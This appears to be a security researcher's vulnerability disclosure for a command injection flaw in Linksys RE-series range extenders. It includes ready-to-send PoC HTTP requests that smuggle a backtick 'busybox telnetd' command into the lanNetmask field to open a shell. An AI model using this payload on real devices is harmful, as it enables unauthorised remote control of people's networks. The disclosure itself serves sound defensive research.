






# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setDFSSetting` function, `lanNetmask、lanIp` is directly passed by the attacker, so we can control the `staticIp、lanNetmask、lanIp` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

In `setDFSSetting` function.

`mod_form.so->internet.sh->um_red`

<div  align="center"></div>

<div  align="center"></div>

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

<div  align="center"></div>

Vulnerability trigger steps:

* set `lanNetmask`=**255.255.255.0`busybox telnetd`**, in (`setLan`)
* Trigger the vulnerability, in (`setDFSSetting`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `lanNetmask` as **255.255.255.0`busybox telnetd`** , and the router will excute it,such as:

```http
POST /goform/setLan HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1320
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=zgvNXSgIwwGhiS5kNKaXqABueSEcgStd
Upgrade-Insecure-Requests: 1

lanIp=192.168.1.1&lanNetmask=255.255.255.0`busybox telnetd`&lan2enabled=&lan2Ip=&lan2Netmask=&lanDhcpType=&stpEnbl=&lltdEnbl=&igmpEnbl=&upnpEnbl=&pppoeREnbl=&dnspEnbl=&dhcpStart=&dhcpEnd=&dhcpMask=&dhcpGateway=&dhcpLease=&dhcpStatic1=&dhcpStatic=&dhcpStatic3=
```

Trigger the vulnerability, in (`setDFSSetting`)

```http
POST /goform/setDFSSetting HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1320
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=zgvNXSgIwwGhiS5kNKaXqABueSEcgStd
Upgrade-Insecure-Requests: 1

dfsSwitch=
```


## Result

Get a shell!

<div  align="center"></div>

